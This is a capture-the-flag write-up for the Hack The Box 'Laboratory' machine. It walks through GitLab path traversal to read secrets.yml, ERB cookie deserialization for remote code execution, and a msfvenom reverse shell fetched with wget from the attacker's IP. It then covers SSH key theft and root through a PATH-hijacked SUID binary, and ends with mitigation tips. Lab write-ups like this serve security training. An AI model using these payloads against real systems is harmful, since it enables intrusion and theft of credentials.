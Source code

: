 # Laboratory



## Contents

- [**About Box**](#About Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**Own User**](#Own User)
  - [**Own Root**](#Own Root)

- [**Mitigation**](#Mitigation)



## About the box

[![](img/box_info.png)]()



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)





## Enumeration

First, i start nmap scanning:

```bash
nmap -sC -sV -oN nmap_res 10.10.10.216
```



###### Active services:

- **SSH**

- **HTTP**
- **HTTPS**



![nmap_scan](img/nmap_scan.png)





First i try **HTTPS** protocol and i get this:

![](img/url_error_message.png)



So, i have to edit my `/etc/hosts` file to add the corresponding **DNS Server names** to the target ip:

`10.10.10.216	laboratory.htb git.laboratory.htb`

Now, i can access to the web page. After a few minutes on the main page, i get nothing so i decide to go in the `git.laboratory.htb`. I try to create an account to access to the git main page. I have to use the domain name of the website for the mail:![](img/git_register.png)



I explored the git page and i found a project with the user Dexter:![](img/git_dexter.png)



Here, i think i need to be able to connect to his account to manage the website. So, first, i try to find the deployed git version and i found it in the help page:

![](img/git_version.png)

Now, i just need to search an exploit which is available on this version. Finally, i found an interesting post which say that we can make a **RCE** with this version of gitlab:

![](img/git_rce_post.png)



## Exploitation

To use this exploit, i have to get the secret_key_base of the server gitlab and add it to my gitlab-rails config:

![](img/exploit_step.png)

I tried this description for the issue: `![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)`

When i moved the issue in my second project, i get the secrets.yml file:

![](img/secret_key_base.png)

I downloaded it and cat the file to copy the secret_key_base on my own secrets.yml :

![](img/secret_key_base_2.png)



I installed gitlab with the correct version and try this steps to trigger a **RCE**.

First, i launched gitlab rails console with the following command: `sudo gitlab-rails console `. 

In the same time, i create a SimpleHTTPServer with python: `python -m SimpleHTTPServer 8888`.

Before writing this commands, i create a file `test`and i edit the `erb` variable with ```erb = ERB.new("<%= `cd /tmp/ &&  wget http://10.10.14.121:8888/test` %>")```

I send this commands to the gitlab console and generated the corresponding cookie. Finally, i send request using curl with the cookie and i received the wget answer:

![](img/rce_test_file.png)



So, the **RCE** worked, at this point, i tried to get a reverse shell.

I generate an elf file using msfvenom to execute it remotely: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.121 LPORT=4444 -f elf >reverse_shell.elf`

In the same time, i use netcat to listen the specified port: `nc -lvp 4444`

I re-edit the `erb` variable with this command: ```erb = ERB.new("<%=`cd /tmp/ &&  wget http://10.10.14.121:8888/reverse_shell.elf && chmod +x reverse_shell.elf && ./reverse_shell.elf` %>"```

After that, i got the reverse shell: 

![](img/rce_reverse_shell_edit.png)



## Post-exploitation

### Own User

I know we are in the gitlab server which handles the website. I also know the username name of the user we got in the gitlab website: Dexter.

So, i after a few research, i learned that i can easily edit the user password using `gitlab-rails console`:

<img src="img/edit_dexter_password.png" style="zoom:100%;" />



I tried to connect to Dexter account with the password i edited and it worked. In his account, i retrieve the private key for the ssh connection:

![](img/private_key.png)



I dowloaded this file and used it for the ssh connection, and it worked again:

![](img/user_pwned.png)



### Own Root

First, i launched a linPEAS to enumerate possible privesc. After a few looks, i found an unusual **SUID** binary file:

![](img/docker-security.png)

I tried to read readable ASCII character using `strings` command in my kali and found interesting lines, especially, the lines with chmod:

![](img/docker-security_chmod.png)



So, here we can conclude that chmod command is launched without the absolute path from the `docker-security` script with the root privilege because of the **SUID** permission.

I decided to create a custom script named `chmod` and add the temperally directory to the `PATH` to execute my script instead of `/bin/chmod`. I just used `/bin/bash -i` to launch an interactive bash shell:

![](img/chmod_script.png)



Finally, i make my file executable, execute `docker-security` and i got bash with root privilege:

![](img/root_pwned.png)



## Mitigation

To avoid vulnerabilities in this box, it is recommended to:

- Upgrade gitlab to the last version
- Do not be tempted to roll your own **SUID** utilities unless you really have to
- Use absolute path of command used in script
- Use `getconf PATH` in the start of the script to avoid unknown script execution 